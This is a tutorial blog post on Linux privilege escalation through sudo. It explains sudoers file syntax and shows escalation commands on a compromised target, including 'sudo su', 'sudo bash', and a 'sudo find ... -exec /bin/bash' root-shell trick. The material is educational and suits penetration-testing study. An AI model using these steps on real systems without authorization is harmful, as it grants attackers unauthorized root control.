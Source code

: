 ```yaml
---
title: SUDO
date: 2024-01-30 06:03:00 +0530
categories: [LinuxPrivilegeEscalation,Sudo]
tags: [LPE,Sudo]     # TAG names should always be lowercase
---
```


# Lets Start with theoretical Concepts:
In Linux/Unix system there is sudoers file inside the /etc configuration file for sudo rights, we already known the power of sudo command. full form of sudo super user do root privilege tasks, sudoers file is that file where the user and group privilege are stored and run some or all command with root or another user privilege.

<img src="https://miro.medium.com/v2/resize:fit:1400/format:webp/1*GvY_40k168eQxK3ic6nx5w.png" alt="sudoers_file">

If we run a command with sudo (ex: sudo nano), then it will run with root privilege. In Linux/Unix, it checks in the sudoers file whether the user is present inside the file or not; if it’s not present in the sudoers file, then it will not run with root privilege.

In above the image we can see below that user privilege specification root ALL=(ALL:ALL) ALL,

root user can run on ALL terminal, acting as user ALL: group ALL and run ALL command.

# Sudoer File Syntax:
<img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/0*X3vj3H2ARwr4AcuP.png" alt="sudoers_syntax">

# Note:

→ (ALL:ALL) can also represent as ALL

→ if you found root inside (ALL:ALL) then it denotes that user can run command with root

→ if nothing is mentioned about user and group then it means use default root user

# Method to Assign Root Privilege:
Lets we create a user and give sudo permission:

example : hacker ALL=(ALL:ALL) ALL

Before that create a user and then assign permission command to create a new user sudo adduser username

<img src="https://miro.medium.com/v2/resize:fit:1400/format:webp/1*pv33b5jaqCvnN79TTAty-g.png" alt="adding_user">

Enter visudo command to open sudoers file editor where you can edit the sudoers file

```shell
sudo visudo

hacker ALL=(ALL:ALL) ALL
or 
hacker ALL=(ALL) ALL
```

<img src="https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XDtf_2MKim7wrl95j302Mw.png" alt="visudo">

First compromise the target machine and move to the privilege escalation phase, i have got access through SSH.

`sudo -l` command will list what are the command can be run without providing password.

<img src="https://miro.medium.com/v2/resize:fit:1400/format:webp/1*d07mBV9F2y3gNM_O77YiTg.png" alt="sudo -l">

To get Root access just type `sudo su` command or `sudo bash`

<img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*wi0ZtKVri28KjYBvnrW4ag.png" alt="sudo su">

# Allow Root Privilege to Binary commands:
Some scenarios user has the authentication to execute any file or command of particular directory like /etc/find , /etc/cp etc.

```shell
hacker ALL=(root) NOPASSWD: /usr/bin/find
```
Note: NOPASSWD that means for executing this command does’nt need password.
# Spawn Root Access using Find Command:
Again the compromise the target machine and move to privilege escalation phase, enter the command`sudo -l.`

<img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*d07mBV9F2y3gNM_O77YiTg.png" alt="sudo -l">

```shell
sudo find /home -exec /bin/bash \;
id
```
<img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*NpD_2pBQg0g-Zy6d82FFiA.png" alt="find">




